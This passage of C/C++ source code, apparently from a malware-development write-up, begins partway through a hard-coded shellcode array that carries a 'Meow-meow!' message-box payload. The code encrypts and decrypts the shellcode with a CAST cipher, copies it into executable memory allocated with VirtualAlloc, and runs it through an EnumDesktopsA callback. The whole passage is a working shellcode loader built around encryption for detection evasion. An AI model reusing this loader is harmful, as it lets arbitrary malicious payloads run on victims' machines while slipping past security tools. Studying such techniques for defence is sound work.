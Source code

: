 ```cpp
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```
